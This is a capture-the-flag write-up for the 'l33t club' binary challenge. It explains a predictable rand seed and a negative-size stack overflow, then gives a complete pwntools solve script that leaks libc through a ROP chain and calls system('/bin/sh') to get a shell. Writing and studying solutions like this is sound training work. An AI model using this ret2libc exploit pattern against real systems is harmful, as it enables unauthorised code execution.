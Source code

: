# l33t club

**`Author:`** [LaidMalik](https://github.com/malikDaCoda)

## Description

> Pssst.. Have you heard of the l33t club? I heard they welcome anyone who can prove themself...  

## Write-up

### Brief Summary

- **Stage 1 (random number prediction)** : the random numbers are generated using a predictable seed `srand(time(NULL))`, we can generate the same set using the python C API for executing libc functions
- **Stage 2 (buffer overflow)** : When sending `size < 0`, it passes the bounds check and enables writing a large number of bytes to the buffer because `read_str` accepts an `unsigned int` as a size parameter, which results in a stack buffer overflow.

### TODO

### Solve script

```python
#!/usr/bin/env python3
from pwn import *
import ctypes

elf = ELF("./challenge/l33t-club")
remote_libc = ELF("./libc-2.31.so")

HOST, PORT = "localhost", 1337

context.binary = elf
context.terminal = ["tmux", "splitw", "-h", "-p", "75"] # for debugging with gdb
context.timeout = 5 # 5 seconds of timeout for blocking operations like recv

def main():
    global io, libc, libc_funcs
    pad = 0x40
    elfrop = ROP(elf)
    pop_rdi = elfrop.find_gadget(["pop rdi", "ret"]).address
    ret = elfrop.find_gadget(["ret"]).address

    io = conn()

    libc_funcs = ctypes.cdll.LoadLibrary(libc.path)

    # Stage 1 (predict random numbers)

    # vulnerability:
    # the random numbers are generated using a predictable
    # seed (srand(time(NULL))), we can generate the same set
    # using the python C API for executing libc functions

    libc_funcs.srand(libc_funcs.time(0))
    for i in range(5):
        guess = predict_num()
        log.info(f"Guess {i} : {guess}")
        io.sendafter("> ", f"{guess}")

    # Stage 2 (l33t function)

    # vulnerability:
    # when sending size < 0, it passes the bounds check
    # and enables writing a large number of bytes to the buffer
    # because read_str accepts an unsigned int as a size parameter,
    # which results in a stack buffer overflow

    # leak libc pointer

    io.sendafter("Enter size: ", "-1")
    payload = flat(
        b'A'*(pad+8), # reach padding + fake BP (base pointer)
        pop_rdi,
        elf.got.printf,
        elf.plt.puts, # call: puts printf@got
        elf.sym.l33t # return address
    )
    io.sendafter("Enter name: ", payload)

    io.recvline()
    leak = u64(io.recvline().rstrip().ljust(8, b"\x00"))
    log.info(f"libc leak: 0x{leak:x}")
    libc.address = leak - libc.sym.printf
    log.info(f"libc base: 0x{libc.address:x}")

    # pop a shell

    io.sendafter("Enter size: ", "-1")
    payload = flat(
        b'A'*(pad+8),
        pop_rdi,
        next(libc.search(b"/bin/sh\x00")),
        ret, # for stack alignment
        libc.sym.system # call: system @"/bin/sh\x00"
    )
    io.sendafter("Enter name: ", payload)

    io.interactive()

def predict_num():
    min_ = random_num(0x0, 0x1337)
    max_ = min_ + random_num(0x0, 0x1337)
    return random_num(min_, max_)

def random_num(min_, max_):
    a = min_ + libc_funcs.rand() % (max_+1 - min_)
    b = min_ + libc_funcs.rand() % (max_+1 - min_)
    num = (a ^ b) % (max_+1)
    libc_funcs.srand(num)
    return num

def conn():
    global libc
    gdbscript = '''
    '''
    if args.REMOTE:
        libc = remote_libc
        return remote(HOST, PORT)
    else:
        libc = elf.libc
        p = process([elf.path])
        if args.GDB:
            gdb.attach(p, gdbscript=gdbscript)
        return p

if __name__ == "__main__":
    io = None
    libc = None
    try:
        main()
    finally:
        if io:
            io.close()
```

### Flag

`shellmates{too_l1ttl3_for_u5_to_h4ndl3!}`
